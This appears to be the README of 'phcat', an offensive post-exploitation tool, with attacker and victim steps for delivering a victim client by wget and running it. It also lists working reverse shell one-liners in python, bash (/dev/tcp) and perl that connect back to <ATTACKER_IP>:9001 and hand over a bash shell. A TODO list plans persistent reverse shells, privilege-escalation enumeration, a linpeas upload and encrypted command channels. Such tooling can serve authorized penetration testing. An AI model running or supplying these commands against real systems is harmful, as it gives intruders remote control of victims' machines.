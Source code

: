 # Screenshots
![phcat screenshot 1](/screenshots/screenshot1.png)
![phcat screenshot 2](/screenshots/screenshot2.png)
![phcat screenshot 3](/screenshots/screenshot3.png)

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available  
  - (Low) Implement "persisting" looping reverse shell install  
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc  
    - (Low) Have menu items show if an error occured of if the playbook results are already available  
    - (Low) Show details about found results and what steps to take next  
    - menu['show']['network']['all'] = function  
    - show enumerate  
      [ ] 1. Check SUID binaries  
    - use enumerate 1  
    - show network  
      [ ] 1. Local IPv4s  
      [X] 2. Connected subnets  
      [ ] 3. Reachable online hosts  
    - show network 2  
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.  
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.  
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered  
- (Low) Better logging with colors and stuff!  
- (Low) When checking SUID files, compare against pre-built list of 'known' default install binaries. Also check creation dates for clues.
